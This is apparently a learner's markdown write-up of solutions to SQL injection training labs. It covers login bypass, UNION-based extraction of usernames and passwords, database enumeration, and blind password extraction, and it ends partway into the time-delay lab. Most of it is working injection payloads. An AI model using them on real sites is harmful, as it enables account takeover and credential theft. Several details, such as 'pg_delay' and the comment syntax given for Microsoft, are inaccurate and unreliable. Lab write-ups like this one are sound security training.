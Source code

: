 # SQLi

## LAB 1 -- Retrieving hidden data

find vulnerable part by adding **_'_** which will accure error in the server
example: SELECT _ FROM product where category = '$cat_name'
error: SELECT _ FROM product where category = 'pets''
to avoid the error you need to comment all the next words by adding -- in oracle and # in microsoft
**SOLUTION :** '+or+1=1

---

## LAB 2 -- Subverting application logic

after finding vuln part we can use it for multiple reasons like bypassing login
this is the authentication logic: SELECT \* FROM users WHERE username = '$user' AND password = '$pass'

after setting $user = administrator'--
will select only administrator username and comment the next logic
**SOLUTION:** administrator'--

---

## LAB 3 -- Determining the number of columns required in a SQL injection UNION attack

with UNION you get data from other tables and display it

1. so first let's start with ' order by num -- with this payload you can check how many columns are there by inserting number from 1 until the error accured (**The ORDER BY position number 3 is out of range of the number of items in the select list.**)
2. or you can use 'union select null,null... until you found the right number of columns which the data will be displayed wothout any errors
   **SOLUTION:** '+UNION+SELECT+NULL,NULL--

---

## LAB 4 -- Finding columns with a useful data type in a SQL injection UNION attack

then you need to know the type of the column int or str by replacing null with random values like this :
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
**SOLUTION:** '+UNION+SELECT+null,'qJRR0O',NULL--

---

## LAB 5 -- Using a SQL injection UNION attack to retrieve interesting data

in this lab will you need to use union attack to retrieve the username and the password
after finding how many columns are available and there types you can use the str columns to get username and password
**SOLUTION:** '+UNION+SELECT+username,+password+FROM+users--

---

## LAB 6 -- Retrieving multiple values within a single column

in this lab you will find just one str column but you need to get the username & pass
you retrieve them in single column using the following payload
**SOLUTION:** ' UNION SELECT username || '~' || password FROM users--

---

## LAB 7 -- Querying the database type and version

**ORACLE SOLUTION:** '+UNION+SELECT+BANNER,+NULL+FROM+v$version--
**MICROSOFT SOLUTION:** '+UNION+SELECT+@@version,+NULL#

---

## LAB 8 -- Listing the contents of the database

now we need to get all content of the database notice that we will use **information_schema.tables** to get all tables and **information_scheme.columns** to get the columns of the tbales

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 9 -- SQL injection attack, listing the database contents on Oracle

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+all_tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 10 -- Exploiting blind SQL injection by triggering conditional responses:

1. check if username administrator exist:
   trackingID' and (select username from users where username = 'administrator') = 'administrator' --
   "welcome back!" returned, username exist

2. enumerate the length of the password:
   send the request to the repeater and try:

   - trackingID' and (select username from users where username = 'administrator' and LENGTH(password)> 1) = 'administrator'-- ===> welcome back returned so the length of the password is > 1 ofc

   trackingID' and (select username from users where username = 'administrator' and LENGTH(password)> 30) = 'administrator'-- ===> welcome back not returned so the length of the password is less then 30

   after send the request to the intreducer and add the params start the and find the right length

3. enumerate the password using cluster bomb attack:
   after sending the request to the intruder and use brut forcer:

   ' and (select substring(password,$1$,1) from users where username = 'administrator') = '$a$' --

---

## LAB 11 -- Blind SQL injection with conditional errors:

1. first let's inject sql code that cause an error and see if the website is vulnerable using this code:

   trackingID' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   noticed that you will recieve internal error

2. let's check if 'administrator' user is there:

   '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
   if the user exist the condition will be executed otherwise it'll not

3. password length enumuration:

   '||(SELECT CASE WHEN LENGTH(password)=$1$ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
   when the right length found an error will accured

4. password enumuration:

   '||(SELECT+CASE+WHEN+SUBSTR(password,13,1)%3d'w'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'

---

## LAB 12 -- Blind SQL injection with time delays

1. in this lab sql errors are cathes so we can't get any indices by causing errors, here where time delays comes inject code who effect response time like this code

   pg_delay(10)

here the server waits for 10 seconds before sending a response
